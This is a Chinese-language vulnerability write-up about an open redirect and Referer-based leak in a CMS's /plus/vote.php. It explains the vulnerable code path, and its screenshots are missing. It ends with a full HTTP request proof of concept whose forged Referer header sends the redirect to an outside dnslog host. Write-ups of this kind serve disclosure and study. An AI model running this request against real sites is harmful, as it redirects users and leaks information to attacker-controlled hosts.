

HTTP_REFERER可伪造注入造成的服务器信息泄露

路由地址： /plus/vote.php 

找到可控变量 $HTTP_REFERER;

 

分析代码其中 $ENV_GOBACK_URL = $_SERVER['HTTP_REFERER'] 用于记录用户来源页，并在出错时作为跳转地址。由于该值直接使用用户可控的 Referer，若在 ShowMsg() 中被用作跳转地址，可能导致 开放重定向（Open Redirect） 或 信息外带（Referer 外带） 漏洞

访问页面 http://zm.cms/plus/vote.php?aid=1

  

 

分析代码
 
 

当dopost=view时，才会进入循环。

  

同时，isallow=1时会直接跳转$loginurl，所以isallow不能为1

尝试构造数据
 
 

 

 

 

 

 

发现跳转到dnslog

  

Poc：

GET /plus/vote.php?aid=1&dopost=view&isallow=0 HTTP/1.1

Host: zm.cms

Pragma: no-cache

Cache-Control: no-cache

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=t4u664huh7ff25aef70koup9ob

referer: http://irines.dnslog.cn

Connection: close
